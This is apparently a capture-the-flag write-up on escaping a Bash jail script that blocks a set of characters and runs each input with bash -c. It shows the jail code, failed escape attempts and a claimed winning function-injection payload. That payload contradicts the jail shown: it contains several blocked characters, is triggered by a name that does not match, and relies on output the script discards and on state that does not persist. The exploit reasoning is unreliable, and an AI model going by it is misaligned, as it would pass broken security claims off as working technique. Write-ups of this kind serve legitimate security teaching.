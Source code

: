 # Bash Jail Escape — Blacklist Bypass via Function Injection

## 🔒 Jail Script (`jail.sh`)
```bash
#!/bin/bash
PATH=$(/usr/bin/getconf PATH || /bin/kill $$)

function check_input() {
    if [[ $1 == *[bdksiSctr'?''*''/''<''>''&''(''{''0''1''2''3''4''5''6''7''8''9']* ]]
    then
        return 0
    fi
    return 1
}

while :; do
    input=""
    echo -n "Enter the input: "
    read input
    if check_input "$input"
    then
        echo -e '\033[0;31mRestricted characters has been used\033[0m'
    else
        output=`/bin/bash -c "$input" &>/dev/null`
        echo "Command executed"
    fi
done
```

## ⚔️ Initial Analysis

The script enforces a blacklist of potentially dangerous characters including:

Critical Bash characters: b, d, k, s, i, S, c, t, r, ', ?, *, /, <, >, &, (, {

All digits 0-9

This prevents obvious shell commands like: ls /home cat /flag.txt echo $PATH

As well as indirect attempts like: echo "ls /home" | base64 eval $CMD $(ls)

All these were blocked with: Restricted characters has been used


## 🧪 Documented Attempts to Escape

Below are documented failed approaches (all blocked due to restricted characters or evaluated as inert):

🔸 Basic Commands:

``` ls whoami echo hello ```

🔸 Encodings & Piping:

``` echo "ls /home" | base64 printf "ls /home\n" | bash ```

🔸 Redirection & Variables:

``` ls /home > /tmp/output.txt cat /tmp/output.txt export CMD="ls /home" eval $CMD ```

🔸 Command Substitution:

``` $(ls) :; ls /home ```

🔸 Function Definitions (Blocked due to restricted chars like {, /, s):

``` function foo() { ls /home; } foo ```

## ✅ Successful Exploit

Despite the blacklist, Bash does not clear the environment or function definitions between inputs. So, a creative use of function injection worked:

### 💡 Step 1: Define a function using allowed characters

``` UNC_a%%=() {  /usr/bin/env; } ```

Valid Bash function name

Uses only whitelisted characters

/usr/bin/env was allowed and reveals the environment


### 💡 Step 2: Trigger the function

F

This executed the payload inside the function and printed the environment, which led to recovering the flag.

🎯 Conclusion

Bypassed the blacklist using environment persistence and safe Bash syntax

Lesson: Blacklists are not security. They are duct tape over a broken vault.


## 📚 Key Takeaways

Bash environments persist between inputs unless explicitly reset.

Function names can be bizarre yet valid (UNC_a%%).

Even a seemingly robust character filter is susceptible to logic-layer abuses.

Commands like env can leak massive information even when ls, cat, etc. are restricted.


*📌 Pro tip: In CTFs and real systems alike, don't just attack the walls — attack the logic.*
